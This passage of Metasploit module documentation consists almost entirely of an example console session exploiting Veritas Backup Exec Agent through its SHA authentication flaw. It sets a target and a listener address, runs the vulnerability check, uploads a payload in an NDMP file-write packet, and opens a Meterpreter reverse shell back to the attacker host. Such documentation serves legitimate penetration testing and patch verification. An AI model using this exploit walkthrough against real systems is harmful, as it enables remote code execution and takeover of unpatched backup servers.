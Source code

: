An example session is as follows:

```
msf6 > use exploit/multi/veritas/beagent_sha_auth_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.141
rhosts => 172.16.180.141
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options 

Module options (exploit/multi/veritas/beagent_sha_auth_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.180.141   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   10000            yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[*] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.141:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[+] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 172.16.180.141:10000 - Exploiting ...
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.141:10000 - Passing SHA authentication
[*] 172.16.180.141:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 172.16.180.141
[*] Meterpreter session 1 opened (172.16.180.248:4444 -> 172.16.180.141:49629) at 2022-09-23 10:33:42 +0300

meterpreter > getuid
```